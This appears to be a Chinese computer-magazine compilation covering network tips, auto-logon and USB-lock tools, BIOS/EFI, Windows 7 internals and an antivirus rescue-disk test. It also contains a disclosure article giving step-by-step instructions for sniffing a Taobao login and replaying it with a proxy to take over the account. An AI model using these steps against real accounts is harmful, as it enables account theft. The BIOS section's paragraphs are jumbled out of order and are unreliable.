小编点评：虚拟机暂定状态，想法不错，不过在虚拟机里打游戏的可能性不止是内存的问题，还有显卡等等，所以“陈晨”读者的方法其实很鸡肋，大型游戏是很难用这种方法来“定格”的。

挑战者：四川/陈晨

相互隔绝的网络如何同时访问



原题重现：连接到Internet和内网两条光缆，只有一个路由器，如何能在不总插拔网线的情况下，实现同时访问两个网络。

文章中提到一个是内网，一个是Internet网，这样就有两个路由器，而且这两个路由器离着很近。于是，我们首先做两根1.5米的网线，然后购买一个5口的交换机，再把两根网线分别插到内网的路由器上和Internet网的路由器上，这两根网线的另一端插到新买的5口的交换机上面，再把通到办公室电脑上的那根网线插到新买的5口的交换机上（见图1）。

这样接好之后再下载“笔记本IP切换器”（下载地址：http://www.skycn.com/soft/15609.html），通过设置IP即可实现不用插拔网线就可以互相访问两个不同的网络了（见图2）。

我们所需要的一个5口交换机两根1.5米的网络总的价格不超过75块钱。

小编点评：由于本题的提问者fcxxzux也没有说明具体的网络结构，所以根据一些资料很多读者也给出了自己的解决方案，其中主要的就集中在使用交换机（因为是交换作用，所以路由器在这里是没用的）或是两根网线合并的方法，前者需要花钱，后者会影响网络传输速度，同时也不利于保密。

挑战者：王印



淘宝惊现漏洞 账号可轻易获取

论坛发言、收发电子邮件，淘宝上买东西，都离不开账号和密码。但你登录的那一刻是否想到，一次回车足以出卖你的账号和密码！怎么可能？别不信！别人简单的操作就可以看到你的登录密码，无论你的密码多么复杂。新浪账号、淘宝账号密码都可以轻易获取……

## 密码登录原来是“皇帝的新装”

目前淘宝已经成为网络基础应用之一。它的账号信息，难道可以轻松获得吗？当然在标准登录中，获得账号和密码易如反掌，使用简单的嗅探软件，就可以截获信息，账号和密码一览无余。既然普通的登录容易被嗅探到，那么淘宝还有一种安全登录方式，能不能嗅探到呢？我们用一个实验来看看具体情况。

### 实验1：为了方便起见，我们在本地实验。

+   1.  首先停止任何其他上网工作，安装HttpWatch，在IE的“工具”里启动它，单击Record开始记录信息。打开淘宝页面，输入用户名和密码进行正常登录。此时可以看到HttpWatch窗口不停地跳动，不用管它。
    2.  单击Stop停止捕获信息，在上面定位到淘宝登录的选项，在下面单击POST Data选项卡就可以看到账户信息，在界面中我们可以看到用户名，而密码居然是很长的一串字符。

> 小提示：
本文所需软件请从此地址下载：http://work.newhua.com/cfan/200922/sygj.rar。HttpWatch作为IE的一个插件，最主要的功能就是对通过浏览器发送的http请求进行监控和分析。它能够极大减轻数据分析工作量，当捕获到数据之后，单击POST Data选项卡就可以看到用户名和密码。

按照淘宝的思路，密码经过了加密，别人不知道加密算法，即使获得了传输的字符，由于没有“钥匙”，也无法破解得到密码，从而无法登录淘宝网。果真如此吗？让我们再做一个实验。

### 实验2：在做实验之前，要选择实验环境，由于新联通或者电信的PPPOE拨号软件影响实验的进行，笔者选择的是无线环境，局域网也可以完成这个实验。

+   1.  首先安装网站测试工具paros。单击IE“工具→Internet选项→连接→局域网设置”，代理的地址设置为：localhost，端口：8080，将IE的信息通过paros工具进行发送。
    2.  将实验1捕获的以POST开头内容保存为一个文本文件（单击HttpWatch的stream卡片，然后把内容复制，在记事本中保存接口）。做完以上工作后，在IE浏览器中打开淘宝网站，输入捕获的用户名，密码随便，不要单击登录。
    3.  单击paros的Trap，选择Trap request，对网页的请求进行单步执行。单击IE中的登录按钮后，你会发现paros的窗口在闪动，paros拦截了用户的请求，分别以刚才保存的文件替换以POST开头的请求头部分和以TPL_username开头的主体部分。单击contion后回到IE中，这时候你看到什么现象了？居然已经登录到淘宝网站了（这也就是我们常说的重放攻击）。

> 小提示：
这个过程看起来很简单，不过这只是实验，为了便于说明问题，为实验搭配了很多方便条件。捕获数据包不是很艰难，难度在于数据量太大，你必须要是分析到那条包含密码的数据包。想想我们上网看电影、听音乐的数据量，在其中发现登录的用户名和密码，基本相当于大海捞针。而且截获的过程，还要有人登录过，所以，从目前来看，账户信息是无法轻易获取的。而且本身这种行为还受到法律的制约。

## 安全登录百密一疏

现在你会觉得不可思议，其实过程很简单，要说清楚还要从我们登录的输入过程慢慢谈起。在淘宝的登录页面，我们单击“登录”后，之前输入的用户名和密码将进行简单地编码转换，使用标准的HTTP协议在网络中传送。这样，在信息通过的任意一个环节都可能得到这些消息，如网络管理员可以利用职务之便，在网关处得到；如果不是网络管理员，局域网的其他计算机还可以利用ARP欺骗技术，自己冒充网关得到；在没有加密的无线网络中，好似无线电广播，任何人都能够收听到。
你也许会问，收听到后又有什么用呢？在前面的实验中我们已经看到了，HttpWatch截获数据包后密码信息就会被暴露。HttpWatch就是一种嗅探器软件（嗅探器就是一个通过网卡捕获、分析网络数据的软件），它接收到数据包之后，再进行一次编码转换，把网络传输中的代码变为我们可以看得懂的文字，也就得到了刚才在页面中输入的用户名和密码。这个结果我们看得很清楚了。
由于淘宝在登录安全体制上的不成熟，导致可以利用重放攻击来登录。淘宝对登录密码的加密在安全输入控件中进行，网络中传送的数据包是用户名和加密后的密码。所以可以把这些信息截获，在以后的某一个特定的时间内，可以绕过输入控件，采用在网络中直接发送数据包的方式登录网站。

## 无独有偶 账号传输原来这么脆弱

现在你肯定有很多疑问，我们的数据传输就这么不安全吗？其实，实际情况比你想的还要遭。淘宝已经算是安全的了。账号输入过程的安全我们经常防备，账号传输过程实际却被忽视了。在使用电子邮件、登录论坛的时候，通常默认使用普通的登录方式（例如新浪），传输方式为不加密，只需截取一下数据包就可以看到账号和密码。
淘宝的标准登录就是一个典型的普通登录。前面我们知道，用户和服务器采用标准的HTTP协议进行通信，由于HTTP协议本身不对通信过程的信息加密。在通信过程中的每个环节，特别是网关、局域网，都可以轻易得到账户信息的数据包，从而造成用户密码的泄露。而且，不加密的无线网络，工作方式类似传统的HUB，数据包更容易得到。由于无线网络的普及，很多无线用户没有起码的安全意识，在通信过程中不加密或者采取简单的WEP加密，这样，攻击者可以很容易采用无线sniffer捕获数据包。

## 登录小改进 安全一大步

我们不妨再按同样的方法来测试一下雅虎的邮箱登录，截获的数据如图5所示。从图中可以看出，截获后的帐户可以轻松显示，但密码变成了一堆看不懂的密文。这样，即使通信被截获，密码还有一定安全性。
雅虎也采用HTTP传输，也没有使用安全控件，这其中有什么秘密呢？究其原因，原来网站的页面上采用了JavaScript技术，对输入的密码做一个单向不可逆的变换，当然在服务器上也进行同样的变换。比如输入的密码为ABC，那么可以将其变换为BCD进行传输，这时如果进行截获，也只能截获BCD，从而保护了原始密码的安全。在登录的时候，服务器只需比较加密后的登录的密码和服务器中加密后的密码是否相同即可。在实际使用中，一般要使用成熟的加密算法，例如MD5、SHA1等，由于这种变换是不可逆的，因此能够保证账户的安全。
分析整个过程可以发现，多种原因造成了登录漏洞。由于淘宝网在与用户通信的时候，采用的是标准的http协议，没有对数据传输进行加密，从而暴露了加密后的密码。而在密文中，没有包含相应的随机数或者时间戳等预防重放攻击的信息，从而产生登录漏洞。这里也建议淘宝，一方面要改进加密体制和进行传输加密（如https协议），另外一方面要对登录密码和支付宝密码采用不同的加密方法或者强制用户使用不同的密码。
要实现登录的安全，服务厂商至少需要做两项工作：一是要采用类似银行那样的登录安全控件，确保本机不会被木马截获账户信息；其次是在整个连接过程中一定要采用HTTPS协议进行加密传输。那么我们平时就要选择安全登录模式，重要的密码一定要和平常使用的密码一定要区分开，密码要定期变更。

(河南/赵建超)

时间一到系统就自动登录

原题重现：开机之后自动选择要登录的用户。
闲来无事看到这一挑战题目，发现还是挺有趣的，找了好久，终于找到了一款软件能够很好地解决这个问题。

首先下载并安装好Logon Expert（下载地址：http://work.newhua.com/cfan/200923/LE.rar，Windows 7用户下载地址：http://download.logonexpert.com/LogonExpertSetup.exe），它将替代Windows的登录管理功能，它不仅默认支持安全模式下的自动登录，还使用了AES高强度的加密能更好地对密码进入保护。

运行Logon Expert，在其主窗中的Logon Settings（登录设置）中勾选Enable automatic logon（激活自动登录功能），并填写好Username（用户名）和Password（密码）（见图1）。

接着切换到Logon Scheduler（登录计划），勾选Enable logon tasks（允许使用定时登录功能），在Delay logon for X seconds（X秒后登录）中填入数字，表示延迟多少秒后才执行自动登录操作。此外也可以自定义自动登录的精确时间，选择Custom tasks（自定义任务），单击Add（添加），在Logon type（登录类型）选择Logon（登录），然后根据需要于Scheduler task（计划任务）可选择Once, Daily, Weekly, Monthly（每次，每日，每周，每月），并设置好时间即可。

为防止别人在自动登录后进行其他操作，可以依次进入Security→Post-logon protection（安全→登录后保护），勾选Lock computer after logon（登录后锁定电脑），如果需要还可以设置时间。如果在系统启动时不想让Logon Expert自动登录的话，可以进入Opinions（选项）中将Cancel autologon when “Shift” key is pressed（按住Shift键时取消自动登录）项选中即可。

> 小编点评：没想到不可以解决的问题居然解决了，期待高手把软件汉化……
挑战者：黄高展



# 独家揭秘驱动精灵在线版技术内幕

当我们每天用Gmail收发邮件，在土豆网观看“视频”，在开心网玩“偷菜”的时候，你是否发现，基于网络的应用程序已经无处不在。这些应用都无需桌面软件来完成，一个浏览器就搞定了。这不，最近驱动精灵也推出了“在线版”，只需一个浏览器就可以自动检测硬件，更新驱动了。原来，很多应用都可以加在浏览器上啊。可这个浏览器难道天生就是压不死的骆驼吗？随便什么功能都可以转移到浏览器上吗？

# 现身说法驱动精灵的在线化

为了更清楚地说明问题，我们就拿刚刚推出的“驱动精灵在线版”为例，来看看它和浏览器是如何合作的。登录http://up.mydrivers.com，浏览器首先提示要安装一个ActiveX控件dgweb.cab。点击“硬件检测”，数秒后适用于本机的驱动程序下载地址就会被全部列出。表面上只有简单两步，在计算机后台的工作可是繁琐复杂的。

- 1. 当我们点击“硬件检测”按钮时，浏览器检测到这个脚本动作，传递给控件dgweb.cab，然后它开始工作：向操作系统对应的注册表键值读取本机全部硬件的设备ID、硬件类型等参数，这些信息就好比我们通过设备管理器看到的硬件信息（见图1）。



小提示：

起初安装的控件dgweb.cab其实就是一个小型的驱动精灵软件，简单来说，它就是将驱动精灵的程序代码封装在一起，然后放在浏览器里，与浏览器建立通讯的接口，抛去了原有的软件界面，让浏览器充当软件界面。

- 2. 读取的硬件信息在控件dgweb.cab控制下，通过HTTP传输协议传输到固定的地址，也就是驱动精灵的服务器，这个传输过程是和软件版一样的。服务器端接收到硬件信息之后，即刻开始在驱动之家的巨大数据库中进行查询，并把硬件ID翻译成我们能看懂的硬件型号（见图2）。



- 3. 在完成硬件信息“翻译”的步骤之后，服务器端将开始根据硬件型号查找最为匹配的驱动程序，复杂地查找、对比、选择后产生一个结果信息。结果信息再传回到控件dgweb.cab，控件再传递给浏览器，浏览器就将结果显示了出来。

# 由小见大 浏览器成“蓝海”

对比“驱动精灵2009”单机版，我们注意到基于浏览器的“驱动精灵在线版”大小仅为单机版的二十分之一。虽然在线版没有了备份还原功能，也省去了硬件检测模块，可是为什么仅有1MB左右的浏览器插件就能实现驱动精灵单机版才能实现的核心功能呢。

通常来说一款软件除了核心功能的代码之外，还有不少空间是被用来存储软件所需的其他资源的。例如软件中需要出现的界面元素、图片、图标等等。如果把这些元素全部放在网页服务器上，软件的体积就会相应地缩小。另外，软件的部分内容例如硬件信息数据库也可以被放置在远程服务器上通过网络来访问，这就可以进一步缩小软件的体积（此过程示意图见图3）。

Web应用程序大多数都是采用网页的形式来显示界面，其中浏览器充当了媒介的作用，它既可以与软件核心代码进行交互，并与远程服务器配合实现软件的核心功能。同时也可以与Java, JavaScript, DHTML, Flash语言进行配合，并用网页的形式来显示软件界面，对于软件界面设计人员来说，网页式界面是一个可供发挥的好场所。没有了各种硬件限制，软件的界面也可以设计得更为合理、美观。



以上我们介绍的驱动精灵在线版的应用只是Web应用程序的一个典型的例子。实际上还有很多大型的Web应用程序值得我们关注，例如微软的在线版Office等。大家若是想知道Web应用程序的未来，君不见基于Chrome浏览器的谷歌Chrome操作系统正向我们走来么？

(郑州/赵晨)

# 幕后英雄——你不知道的BIOS

每台电脑都需要BIOS，无论是底层硬件设置、支持新CPU、修复系统Bug、对CPU/内存进行超频，以至于修改开机画面等等，都离不开BIOS的后台支持。

以往极为繁琐的参数调节和测试过程。

的ACC (Advance Clock Calibration) 功能，强制打开被屏蔽的核心。其中不乏双核的Athlon X2 5000+被开成6MB L3缓存的四核处理器，性能直逼高端的Phenom X4，性价比极大提升。而开核能否成功，除了CPU本身的体质之外，最重要的就要数BIOS本身的功能了。

# 为什么超频需要BIOS调节

BIOS的全称是Basic Input/Output System（基本输入输出系统），也就是说，对于电脑最基本硬件的最底层操作，都是通过BIOS来完成的。打个比方，我们去饭馆吃饭，面对服务员（操作系统）要了一盘宫保鸡丁（用户点击鼠标），然后服务员向大厨（BIOS）下单（转换为程序语言），最后大厨抄起锅碗瓢盆（转换为机器语言控制电脑硬件）完成这道菜。

到了今天，BIOS的功能已经被主板厂商们开发得极为丰富。除了大约10年前开始出现的“软超频”，也就是现在所有主板都采用的通过BIOS调节CPU和内存频率外，还可以用来修补Bug、修改开机画面、给电脑加密码、支持其他大容量存储设备、BIOS恢复、系统还原，甚至给CPU“开核”……

# BIOS的革新之路——EFI

而超频也是同样道理，如果我们需要CPU运行在更高的频率、更高的电压或是其他什么模式下，都要通过BIOS对硬件进行底层调节。可以说一块主板的超频能力高低，很大程度上是取决于BIOS编写的水平。一般以超频为卖点的主板，BIOS中各种选项都极为丰富，以便玩家通过各种细微的调节，榨干硬件每一分潜力。

修补Bug的重要性不必多说，很多莫名其妙的问题都可以通过升级BIOS来解决，当然这也要主板厂商比较负责任才行。

BIOS从世界上第一台PC诞生至今，都没有发生过太大变化，在操作系统绚丽多彩方便快捷的今天，依然是一副死板的字符面孔。因此Intel早在2006年的IDF上就推出了EFI (Extensible Firmware Interface, 可扩展固件接口)系统，简单来说就是个进化了的、具备更多功能的图形化BIOS。你可以把它看作一个微型Windows，不但可以直接运行一些音乐/视频播放、小游戏、磁盘管理、数据备份/恢复之类的简单功能，还可以内置驱动，好处就是不必每次重装系统后都繁复地装一大堆驱动了。再比如通过EFI内置的磁盘管理功能，可以直接读取硬盘上的ISO来安装系统，从此光盘启动和闪盘启动将成为历史。

至于BIOS本身的加密功能，在今天已经显得有些鸡肋了。一方面是防破解能力太差，只要清空CMOS，BIOS密码就不复存在；另一方面则是由于操作系统的各种加密能力越来越强，从进入系统到整个硬盘的加密无所不能，所以现在已经极少有人给BIOS设开机密码了。值得一提的是Lenovo等品牌机厂商在BIOS中提供了硬盘加密的功能，即使将硬盘换到其他电脑上，也无法读取其中的数据。对注重数据保密的商务人士来说应该很有用处。

超频时CPU和内存往往密不可分。尤其是像现在i5/i7这种内置了内存控制器的CPU。对于内存的超频，Intel、NVIDIA等厂商也依附于BIOS开发出了XMP、SLI之类的内存预置模式。只要主板和内存都支持XMP或SLI，在BIOS里就可以通过选择预置模式的方式，极为简单地使内存工作在更高频率下，免去了

最后不能不说说“开核”，这事儿从2009年初一直闹到现在。我们都知道无论AMD还是Intel，CPU的良品率不可能是100%，比如四核CPU，经常有其中一个或两个核心达不到标称频率，于是官方就把这些不合格的核心屏蔽掉，把整个CPU当成双核或三核来卖。不过到了主板厂商这里，却通过SB750南桥

遗憾的是，目前虽然绝大多数主板其实都已经符合EFI的要求，但却极少有厂商愿意做出来，市面上能见到的只有微星P35 Efinity等寥寥几款。对EFI的功能应用也仅仅停留在中文、图形化而已。基本上还是演示的意义更大些，希望今后能看到更多真正应用到EFI的主板产品。

# 微软工程师秀逗了？探寻系统目录海量之谜

安装了Windows 7的朋友都知道，Windows 7的系统分区占用的容量可比Windows XP大多了。如果细心的朋友还会发现一些奇怪的现象，比如打开系统分区根目录，还会发现XP时代的Documents and Settings目录（默认无法访问），以及体积庞大的C:\Windows\WinSxS目录。更为奇怪的是，当你使用系统搜索功能查找Windows\System32目录下的系统文件时，经常也会在C:\Windows\WinSxS目录找到同一文件（见图1）。难道是微软的工程师秀逗了？



# 火速链接：

17期的《有怪兽？解密系统文件下的winsxs目录》详细介绍WinSXS目录特性。

# 虚实结合的假象？

上述介绍的Windows 7的怪现象其实就是Windows中的软、硬链接在作怪。Documents and Settings其实是一个快捷方式（软链接），它的存在是为了使Windows 7有更好的兼容性。可以说软链接相当于门牌号，摘除了门牌，门仍在。同一系统文件保存在两个目录则是NTFS目录中硬链接，大家知道WinSXS目录保存的是各个版本系统重要文件。默认情况下，应用程序读取系统组件路径则是c:\windows\system32，因此为了便于程序的访问，微软便将WinSXS目录保存的文件建立一个硬链接到上述目录。这样做的好处，是方便对文件进行管理，因为在升级补丁后，系统经常会更新大量新版本的系统文件，现在这些更新文件全部保存在WinSXS相应子目录中，更新操作完成后只要为新版文件建立一个硬链接到System32目录即可。这样既可以保持System32目录的整洁（不会同时存在多版本文件，方便程序快速调用且不易出错），又可以节省空间，加快升级速度（因为硬链接并不占用磁盘空间，而且建立链接速度很快，省去在另一个目录中复制操作却达到同样功效）。

# 小知识：什么是软硬链接？

链接就是保存了另一个文件（夹）的路径名的符号链接，如我们常用的快捷方式，删除这个符号链接并不会对原文件有任何影响。硬链接是一个现有文件的别名，给一个文件建立硬链接后，它们互为别名，删除其中任意一个就会删除原文件。形象地说，软链接是门牌号（摘除门牌门仍在），硬链接则是门（如客厅门也叫起居室门）。

# 它们是怎么链接的？

前面介绍软、硬链接导致Windows 7怪故障，那它们是怎么工作？对于Documents and Settings快捷方式，Windows 7使用的应该是著名的“虚拟重定向”了，以前介绍过，这里就不再啰嗦。对WinSXS硬链接，Windows 7在自动更新以后，会将新版本的系统文件自动新建链接到SYSTEM32中，也就是说每次将更新的文件写入到WinSXS目录后，SYSTEM32目录中的也会同步更新（实际上并没有将新文件复制到该目录，只是更改了硬链接）。如果要查看Windows 7系统分区到底使用了哪些硬链接，可以到http://tinyurl.com/bdcd3e下载Hlscan_setup.exe，安装后可以将其中的Hlscan.exe复制到SYSTEM32目录，启动命令提示符输入“Hlscan.exe /dir d:\windows /log c:\ht.log”（假设Windows 7安装在D盘），这样会把Windows目录下所有硬链接全部输出到c:\ht.log中，打开记事本即可看到具体的硬链接（见图2）。



# 揭开迷雾，正确认识Win7的系统分区大小

由于硬链接是基于系统底层的链接，因此每个链接会被系统“误认为”就是一个具体文件，所以当右击SYSTEM32选择“属性”查看目录大小时，系统会把硬链接占用的空间也计算在内（实际上只是一个链接符号）。因此Windows 7目录实际占用空间大小=硬链接大小/2+非硬链接文件大小。这是NTFS硬链接特性在“迷人双眼”，也是Windows 7的新特性之一，所以动辄说Windows 7体态臃肿的同学，可以无语了。

(文/漂泊在外)

# 打造“移动数据堡垒”

原题重现：使闪盘和移动硬盘插入电脑后，要求使用密码访问，并且数据不能被删除，不能被格式化。

现在的闪盘保护软件非常多，但是多数要么是要么是对文件进行加密，但是仍然阻挡不了删除和格式化，那么什么软件可以既保护U盘上的文件，又可以使文件免遭删除或者格式化呢？答案是USB闪存盘守护者。

安装USB闪存盘守护者（下载地址：http://work.newhua.com/cfan/200923/UsbEntSS.zip）。完成后插入闪盘，并运行USB闪存盘守护者。软件会列出计算机上的所有磁盘，选中要保护的U盘，点击安装（见图1）。接着提示会格式化闪盘，注意备份好文件，点击“确定”。然后设置密码和密码提示（见图2），“确定”后闪盘安装保护功能。



安装完成后，闪盘被划分为两个区域：保护区域和非保护区域，其中非保护区域只有不到500KB大小，用来存放解锁工具，闪盘连接电脑后首先显示的就是这个区域，只有正确输入密码后才可以看到保护区域。非保护区域中包含两个文件，要解锁闪盘只需运行其中的EXE文件，输入密码即可，如果系统没有禁用自动运行功能，插入U盘就会自动运行此文件，要求输入密码解锁U盘，密码验证正确后保护区域就会被显示出来（见图3）。如果不输入密码解锁，非保护区域被格式化或者其中的文件被删除，对保护区域不会有任何影响，这时需要再次打开USB闪存盘守护者，选中闪盘，依次点击“操作→复制解除工具”，恢复解锁工具后进行解锁。



闪盘断开与电脑的连接后再次连接电脑就会回到锁定状态，也可以使用USB闪存盘守护者“操作”菜单中的“无效化”和“有效化”两个选项分别切换解锁和锁定状态，或者选择“卸载”解除对闪盘的保护（见图4）。





> 小编点评：“守护者”虽然不错，但也有个缺点，就是非保护分区还是很容易被别人“干掉”，给使用带来不便，所以没办法得到所有积分了。

挑战者：湖南/龙小康

# 中毒了！谁能解决你燃眉之急——杀毒软件应急杀毒对比评测

中毒了！系统都进不去了！怎么办？安全模式也进不去……或许你有很强的防护意识，之前电脑是“裸奔”，或许你电脑里已经安装有杀毒软件，但当这样的情况发生，它们都已无用武之地。赶紧呼救，启动应急处理方法，杀毒软件还有应急策略呢！利用它们的杀毒光盘或闪盘可以直接引导电脑启动，并进行全盘杀毒。怎么样？兴奋吧！不过这种应急方式到底水平如何，还要通过实际测试才能知道。

# 毋庸置疑的测试平台

本次评测采用对比测试，所有测试项目均在同一软硬件环境下进行，有效对比应急杀毒光盘的各项性能。硬件配置单如下：CPU：Intel Core T7400 @ 2.16GHz 内存：DDR2 667 2GB 主板：Intel 945GM 显卡：GeForce 7400 硬盘类型：SATA 5400 RPM 250GB。操作系统：Windows XP pro SP3。网络环境：1M网通ADSL。闪盘：金士顿2GB USB2.0

# 客观公正的评测队伍

本次评测更加注重了参与性和互动性，先由CFan论坛网友投票选出最关心的软件功能，然后由《电脑爱好者》全体软件编辑和热心读者共同完成测试，保证了测试结果的公正。

# 实用为主的评测理念

秉承“实用至上”的准则，我们打破固有的枯燥对比，从我们应急杀毒的需求出发，通过科学的对比实验模拟平时的几大需求，并用直观的数字告诉你优劣。

# 我们的测试对象

- 卡巴斯基全功能安全软件2010
  - 载体类型：光盘
- ESET NOD32 4.0
  - 载体类型：闪盘
- 瑞星2010
  - 载体类型：闪盘
- 江民杀毒软件2010
  - 载体类型：光盘
- 金山毒霸2009增强版
  - 载体类型：闪盘

# 评测手记

采用闪盘载体要方便很多，而且试验中光盘启动会发生无法启动的故障。杀毒软件病毒库在2009年11月11日与11月12日。

# 测试一：使用难度

对于应急杀毒盘，有些读者或许会感到陌生。它是杀毒软件一个特殊功能，首先需利用杀毒软件制作一个可引导的光盘或闪盘，当系统出现问题时，可以由此应急盘启动，进行杀毒、修复。首先，我们就来带大家一起看看它们的制作和使用方法。

# 卡巴斯基

在工具中心中，启动“应急磁盘创建”，选择“利用本地文件（光盘）拷贝ISO镜像”或“从服务器下载专门的ISO文件”。测试中采用网络下载方式，下载的文件大小约为131MB，然后通卡巴斯基制作成ISO文件，大小为192MB，再通过刻录软件，将ISO刻录成光盘。应急光盘启动后有四种语言版本，但没有中文选项，选择“英文”进入杀毒界面后，单击“箭头”可开始扫描，默认是本地磁盘，可以自己添加目录（支持到文件）。病毒库可直接升级（见图1）。

# 金山毒霸

启动金山毒霸，依次单击“工具→创建应急闪盘”，然后选择目标闪盘，格式化后重新插入，然后可以方便地制作完成。闪盘的启动模式提供了USB-ZIP和USB-HDD两种模式。由应急闪盘启动后默认开始全盘扫描。没有图形化界面，操作的设置需要命令行完成，不过默认不扫描压缩包文件，制作好之后不支持病毒库升级。



# 江民

江民的应急光盘无需制作，就是软件的安装光盘。不过病毒库更新应急光盘无法完成，需要利用江民杀毒软件制作闪盘病毒库。启动江民杀毒软件，在“工具—常用工具”里启动“光盘启动杀毒病毒库制作工具”，单击“运行”，选择闪盘盘符，单击“确定”开始制作，一分钟即可制作完成。利用江民安装光盘启动电脑，系统为中文。启动后提示更新病毒库，有两种模式：提取本机已安装的江民杀毒软件的病毒库，自动检测包含升级病毒库的闪盘。测试中采用闪盘病毒库升级，不到一分钟即可升级完毕。扫描目标只有“我的电脑”和“软驱”两个选项，不能细分到磁盘分区和文件夹（见图2）。



# 瑞星

在工具里找到“Linux引导杀毒盘制作工具”，运行后提示先下载Linux引导文件（51MB左右），然后关闭瑞星自我保护，将文件复制到安装目录，重新运行“Linux引导杀毒盘制作工具”，检测到闪盘后开始制作，不到一分钟制作完成。启动后，有中英文两种语言模式，功能界面和Windows下类似，支持按文件夹目录查杀。制作完成后无法进行病毒库升级，病毒库版本取决于当初下载的Linux文件包（见图3）。



# ESET NOD32

切换到高级模式，在“工具”一栏中单击“创建修复CD”，然后按提示安装Windows AIK，之后开始制作，可以选择创建ISO、直接刻录光盘和闪盘。我们选择了闪盘模式，两分钟后创建完成。启动后界面和Windows下界面一样，只是简化了部分功能。病毒库更新模式有两种：直接在联网状态下更新病毒库和“使用找到的更新包”，也就是通过下载或制作的更新包进行更新（见图4）。

评测结果：ESET NOD32 除了制作前需要下载大文件外，使用上毫无障碍，卡巴斯基没有中文界面，对于英语不好的人来说有些使用障碍，江民使用上还可以，只是不支持文件夹目录的选择，减少了灵活性，瑞星和金山毒霸不支持后期的病毒库升级，算是硬伤。



# 测试二：运行速度

既然是“应急”，那么时间上就要快，那么谁能符合我们的要求呢？我们进行了模拟实验。将一个包含3558个病毒样本的压缩包，分别保存在硬盘的FAT32分区和NTFS分区中，然后使用应急光盘启动，全盘扫描。记录应急盘启动时间和全盘扫描所需时间，由于部分应急盘不支持压缩包文件，所以我们将病毒样本解压后进行第二次测试。结果如下：

| 评测软件项目 | 应急盘启动时间 | 全盘扫描时间（病毒压缩包） | 全盘扫描时间（样本解压后） |
| :--- | :--- | :--- | :--- |
| 卡巴斯基 | 2分30秒 | 27分18秒 | 1小时11分 |
| 金山毒霸 | 28秒 | 28分23秒 | 35分 |
| 瑞星 | 1分2秒 | 在第24分钟死机，无法测试完成 | 在第24分钟死机，无法测试完成 |
| ESET NOD32 | 1分9秒 | 56分54秒 | 45分21秒 |

评测结果：由于江民在测试中未扫描出病毒，所以扫描时间没有计入数据。金山毒霸没有提供图形化界面，所以启动最快，但默认不支持压缩包扫毒，瑞星在多次测试中均出现死机现象，真正完成测试的也就卡巴斯基和ESET NOD32，但卡巴斯基在压缩包测试中扫描率很低，所以这次测试ESET NOD32应是赢家。

# 测试三：杀毒能力

最后的重头戏自然是杀毒能力，在上面的实验中，病毒样本包含3558个病毒。因为没有进行严格的病毒类型对比，所以只能从一个侧面来反映选手们的病毒扫描能力。同时，在FAT32分区中存放了一些小工具软件，以测试误报情况。将病毒分放在FAT32和NTFS分区中，以测试对NTFS分区、跨分区扫描的支持。综合结果如下：

| 评测软件 | 项目 | 压缩包查杀数（总数：3558） | 误报 | 解压后查杀数（总数：3558） | 误报 | NTFS支持 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 卡巴斯基 | 87 | 2 | 3515 | 2 | 较差（检测率低于FAT32分区） |
| 金山毒霸 | 0 | 0 | 3456 | 0 | 不支持 |
| 瑞星 | 3528 | 2 | 3528 | 7 | 良好 |
| ESET NOD32 | 3462 | 10 | 3462 | 7 | 良好 |

评测结果：由于江民在测试中未扫描出病毒，所以没有计入数据。从扫描来看，瑞星检测出的病毒数最多，但每次都未能完成全盘扫描。卡巴斯基和金山毒霸查杀率紧随其后，不过二者不支持压缩包文件，就大打折扣。ESET NOD32查杀率为97%，不过误报也不少。

## 测试四：功能对比

应急杀毒盘原本的功能自然是应急杀毒，不过它不会这么单一，还有更多的功能，一起来看。不过，目前几位选手都不支持加密压缩包的扫描。

卡巴斯基：采用Linux 3.09版制作，内核版本为2.86。应急光盘设置有支持命令行的安全模式，系统除扫描和杀毒功能外，具有文件浏览器，屏幕截图功能。但对二级压缩包支持不好。

江民：采用Linux 2.6.15版本制作，内核版本为2.84。应急光盘提供四种选项，正常模式、特殊模式（只是分辨率不同），启动本机操作系统和重新启动，系统除可以查杀病毒外，提供了系统修复功能，修复无法登录或登录后蓝屏的问题。不支持压缩包文件查杀。

金山毒霸：采用Linux 2.4版本制作，因没有图形化操作界面，功能靠命令来完成，相对较少。支持压缩包查杀，但需命令开启。

瑞星：采用Linux 3.71版本制作，U盘启动只支持USB ZIP，系统除具备查杀病毒功能外，提供了引导区恢复功能。

ESET NOD32：通过Windows PE制作，扫描模式依然保持了ESET NOD32的风格，有智能扫描和自定义扫描，扫描路径可细化到文件夹目录，带有计划任务，文件上报功能。

## 评测结果

单就功能对比，ESET NOD32功能几乎全面包含了原来软件的功能，只是杀毒之外的附加功能没有加入。其他选手都有着或多或少的缺陷。

## 研究院测试报告

做完本期的评测，评测师们都很郁闷，因为选手们的表现实在太差，看来是因为这个应用在平时的使用率不高，所以安全软件公司对此功能的支持还不是很好，因为对压缩包文件的支持不好，就可以将卡巴斯基、江民、金山毒霸排除在外。当然，我们也看到了不少好的方面，江民将安装盘具备应急盘的功能，省去了不少麻烦。瑞星应急盘的附加功能也是不错的。ESET NOD32的应急盘采用了目前流行的PE模式，只是制作起来难度有点大，在功能上还是不错的，对压缩包和NTFS的支持都不成问题，扫毒能力也不错，误报成为大缺点，需要按照文件路径进行自己识别了。看来目前还没有完全满意的产品，只能期待安装厂商在新版中有所改进，毕竟应急杀毒在系统引导出现问题以及对付某些奇怪病毒的时候还是很有用的。综合来看，ESET NOD32是唯一全面完成所有测试项目的选手，缺点还是可以忍受的，所以，ESET NOD32应急杀毒是目前应急杀毒方式中最为优秀的。

## 天生翻译官 Windows 7怎样成就语言天才

在XP时代，如果要在一台电脑使用英文版、中文版操作系统，常规方法是同时安装着两个版本的系统。如果只是通过安装语言包来进行语言切换，经常会遇到内码转换的难题。从Vista开始，系统就多了许多语言文件，只要安装对应的语言包就可以快速变成指定语种的操作系统。Windows 7自然继承了这个特性。为什么Vista/7在语言方面会有这么高的“天赋”？各种语言又是怎么工作的呢？

## 代码和语言分离，生产和包装互不影响

### 小知识：什么是MUI？

全称是Multilingual User Interface（多语言用户界面），是系统向用户提供改变UI（User Interface）语言的功能。在Windows 7常见应用程序中，每一个有用户界面的程序都包含程序代码和MUI语言资源文件。

为了彻底解决语言资源切换的难题，从Vista开始，微软采取了程序代码、语言资源分离的方式，也就是说将所有的和语言相关的资源全部外置，完成了程序代码和语言的无关性的改变。这样，要将当前系统切换到另一种语言的时候，只要通过MUI语言资源即可完美实现切换。

